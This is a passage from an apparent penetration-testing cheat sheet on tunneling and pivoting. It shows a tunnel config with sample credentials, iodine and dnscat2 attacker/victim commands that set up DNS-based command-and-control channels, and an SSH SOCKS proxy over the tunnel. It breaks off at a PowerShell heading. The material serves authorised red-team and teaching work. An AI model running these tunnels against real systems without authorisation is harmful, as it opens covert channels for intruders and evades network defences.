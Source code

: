 ```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```

Now, if you set for example in the victim the **SSH** service to listen in port 443. You can connect to it through the attacker port 2222.\
You could also use a **meterpreter** that connects to localhost:443 and the attacker is listening in port 2222.

## YARP

A reverse proxy created by Microsoft. You can find it here: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

Root is needed in both systems to create tun adapters and tunnel data between them using DNS queries.

```
attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2
```

The tunnel will be very slow. You can create a compressed SSH connection through this tunnel by using:

```
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```

### DNSCat2

[**Download it from here**](https://github.com/iagox86/dnscat2)**.**

Establishes a C\&C channel through DNS. It doesn't need root privileges.

```bash
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

# If using it in an internal network for a CTF:
attacker> ruby dnscat2.rb --dns host=10.10.10.10,port=53,domain=mydomain.local --no-cache
victim> ./dnscat2 --dns host=10.10.10.10,port=5353
```

#### **In PowerShell**
